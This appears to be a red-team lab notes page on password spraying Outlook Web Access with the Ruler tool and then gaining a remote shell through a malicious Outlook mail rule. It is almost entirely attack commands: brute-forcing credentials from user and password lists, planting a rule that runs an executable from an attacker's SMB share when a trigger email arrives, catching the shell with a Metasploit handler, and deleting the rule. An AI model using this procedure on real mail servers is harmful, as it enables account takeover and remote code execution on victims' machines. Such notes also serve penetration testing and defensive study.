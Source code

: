 # Password Spraying Outlook Web Access: Remote Shell

{% hint style="warning" %}
Work In Progress
{% endhint %}

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
ruler -k --domain offense.local brute --users users --passwords passwords --verbose
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-12-23-15-09-03.png)

![](../.gitbook/assets/peek-2018-12-23-15-07.gif)

![](../.gitbook/assets/screenshot-from-2018-12-23-15-08-18.png)

## Getting a Shell via Malicious Email Rule

```csharp
ruler -k --verbose --email spotless@offense.local -u spotless -p 123456  display
```

![](../.gitbook/assets/screenshot-from-2018-12-23-17-15-36.png)

```text
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456  add --location "c:/windows/system32/calc.exe" --trigger "popashell" --name maliciousrule
```

![](../.gitbook/assets/screenshot-from-2018-12-23-17-19-17.png)

```csharp
smbserver.py tools /root/tools/
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456  add --location '\\10.0.0.5\tools\\evilm64.exe' --trigger "popashell" --name maliciousrule --send --subject popashell
use exploit/multi/handler 
set lhost 10.0.0.5
set lport 443
exploit

```

Delete malicious email rule:

```text
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456 delete --name maliciousrule
```

![](../.gitbook/assets/peek-2018-12-23-18-13.gif)

![](../.gitbook/assets/screenshot-from-2018-12-23-18-17-10.png)

